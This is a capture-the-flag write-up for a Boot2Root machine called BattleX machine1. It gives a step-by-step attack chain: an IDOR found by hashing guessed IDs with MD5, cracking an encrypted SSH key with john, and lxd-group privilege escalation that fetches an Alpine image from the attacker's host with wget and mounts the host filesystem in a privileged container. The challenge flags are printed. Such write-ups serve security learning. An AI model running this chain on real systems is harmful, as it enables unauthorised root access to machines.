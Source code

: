 ## BattleX CTF: machine1
#### Category: Boot2Root
#### Score: 60
#### Number of Solves: 3 
### Description

> You know what to do

### TL; DR

Exploit IDOR in a web app and get access to sensitive information, in this case, a SSH private key, encrypted with a weak password. Using that as access and exploiting lxd group to get root access on this machine

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-30 02:39 WAT
Nmap scan report for 10.10.146.166
Host is up (0.50s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proverb Categories
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.67 seconds
```

    
### Initial access

![Imgur](https://i.imgur.com/4Z78fz0.png)

_Web server on port 80_

On checking the links in the proverb categories, they looked strange and similarly structured.

![Imgur](https://i.imgur.com/dEeLuF0.png)

They resemble an MD5 encoded text so I proceeded to use crackstation to try and reverse the text.

![Imgur](https://i.imgur.com/SOjlcBY.png)

My guess was right and it should be possible for me to generate my own MD5 and exploit an IDOR (Insecure Direct Object References) vulnerability. I generated several numbers in MD5 and tried to see if it existed, until `0`.

![Imgur](https://i.imgur.com/ERvoHX2.png)

It contained both public ssh and an encrypted private ssh key. The public key showed who owns them, `jayhunts`. I copied the private key to a file for cracking, using ssh2john and john.

![Imgur](https://i.imgur.com/akAJNrQ.png)

_Password found_

Now that the password has been found, login via ssh shouldn't be an issue. 

![Imgur](https://i.imgur.com/XjqnC6R.png)

_Login success_

```
jayhunts@BattleX:~$ cat user.txt
BattleX{e99a18c428cb38d5f260853678922e03}
jayhunts@BattleX:~$
```

User flag: `BattleX{e99a18c428cb38d5f260853678922e03}`
BattleX{e99a18c428cb38d5f260853678922e03}

### Privilege escalation

```
jayhunts@BattleX:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[snip]
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jayhunts:x:1000:1000:,,,:/home/jayhunts:/bin/bash
jayhunts@BattleX:~$ id
uid=1000(jayhunts) gid=1000(jayhunts) groups=1000(jayhunts),108(lxd)
```

After checking for users in `/etc/passwd` file, I ran id and saw that jayhunts is in the `lxd` group. This can be taken advantage of to get root access on this machine. 

I ran this on my pc to start the privilege escalation proceedure

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

It soon created a `alpine-v3.13-x86_64-20210218_0139.tar.gz` in the folder. Next I snuck the image to the machine with my simple http server, using wget.

```
wget http://MY_IP:8080/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

```
jayhunts@BattleX:~$ lxc image import import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
If this is your first time running LXD on this machine, you should also run: lxd init
To start your first container, try: lxc launch ubuntu:18.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a

jayhunts@BattleX:~$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]:
Name of the storage backend to use (btrfs, dir, lvm) [default=btrfs]:
Create a new BTRFS pool? (yes/no) [default=yes]:
Would you like to use an existing block device? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=15GB]:
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:
Would you like LXD to be available over the network? (yes/no) [default=no]:
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:

jayhunts@BattleX:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer

jayhunts@BattleX:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer

jayhunts@BattleX:~$ lxc start mycontainer
jayhunts@BattleX:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jun 30, 2024 at 11:04am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
jayhunts@BattleX:~$ lxc exec mycontainer /bin/sh
~ # whoami
root
~ # pwd
/root
~ # ls
~ # cd /mnt/root
/mnt/root # ls
bin             etc             lib             mnt             run             swap.img        var
boot            home            lib64           opt             sbin            sys             vmlinuz
cdrom           initrd.img      lost+found      proc            snap            tmp             vmlinuz.old
dev             initrd.img.old  media           root            srv             usr
/mnt/root # cd root
/mnt/root/root # ls -lah
total 36K
drwx------    6 root     root        4.0K Jun 21 15:43 .
drwxr-xr-x   24 root     root        4.0K Jun 14 20:01 ..
lrwxrwxrwx    1 root     root           9 Jun 15 04:14 .bash_history -> /dev/null
-rw-r--r--    1 root     root        3.0K Jun 21 15:41 .bashrc
drwx------    2 root     root        4.0K Jun 16 00:46 .cache
drwx------    3 root     root        4.0K Jun 16 00:46 .gnupg
drwxr-xr-x    3 root     root        4.0K Jun 14 21:21 .local
-rw-r--r--    1 root     root         148 Aug 17  2015 .profile
drwx------    2 root     root        4.0K Jun 14 20:51 .ssh
-rw-------    1 root     root          42 Jun 21 15:43 root.txt
/mnt/root/root # cat root.txt
BattleX{c4ca4238a0b923820dcc509a6f75849b}
```

Thats all for machine1

Root flag: `BattleX{c4ca4238a0b923820dcc509a6f75849b}`

### Conclusion


### References

1. [Hacktricks lxd privilege escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
